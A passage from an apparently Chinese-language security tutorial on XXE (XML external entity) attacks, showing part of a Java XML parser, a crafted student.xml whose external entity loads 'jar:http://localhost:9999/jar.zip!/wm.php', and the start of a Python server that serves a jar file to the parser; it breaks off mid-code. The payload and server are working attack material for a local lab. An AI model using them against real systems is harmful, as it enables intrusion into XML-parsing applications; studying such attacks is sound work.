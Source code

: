    ```java
                   System.out.print(node.getNodeValue());
               }
               else if(nodeType == Node.COMMENT_NODE)
               {
                   System.out.print("<!--");
   
                   Comment comment = (Comment)node;
   
                   //注释内容
                   String data = comment.getData();
   
                   System.out.print(data);
   
                   System.out.print("-->");
               }
           }
   
           System.out.print("</" + tagName + ">");
       }
   }
   ```

   有了这个源码以后，我们需要在本地建立一个 xml 文件 ，我取名为 student.xml

   **student.xml**

   ```xml
   <!DOCTYPE convert [ 
   <!ENTITY  remote SYSTEM "jar:http://localhost:9999/jar.zip!/wm.php">
   ]>
   <convert>&remote;</convert>
   ```

   **目录结构如下图：**

   [![此处输入图片的描述](https://picture-1253331270.cos.ap-beijing.myqcloud.com/%E6%B5%8B%E8%AF%95%E4%BB%A3%E7%A0%81%E7%9A%84%E7%9B%AE%E5%BD%95%E7%BB%93%E6%9E%84.png)](https://picture-1253331270.cos.ap-beijing.myqcloud.com/%E6%B5%8B%E8%AF%95%E4%BB%A3%E7%A0%81%E7%9A%84%E7%9B%AE%E5%BD%95%E7%BB%93%E6%9E%84.png)

   可以清楚地看到我的请求是向自己本地的 9999 端口发出的，那么9999 端口上有什么服务呢？实际上是我自己用 python 写的一个 TCP 服务器

   **示例代码：**

   **sever.py**

   ```python
   import sys 
   import time 
   import threading 
   import socketserver 
   from urllib.parse import quote 
   import http.client as httpc 
   
   listen_host = 'localhost' 
   listen_port = 9999 
   jar_file = sys.argv[1]
   
   class JarRequestHandler(socketserver.BaseRequestHandler):  
       def handle(self):
           http_req = b''
           print('New connection:',self.client_address)
           while b'\r\n\r\n' not in http_req:
               try:
                   http_req += self.request.recv(4096)
                   print('Client req:\r\n',http_req.decode())
                   jf = open(jar_file, 'rb')
                   contents = jf.read()
                   headers = ('''HTTP/1.0 200 OK\r\n'''
   ```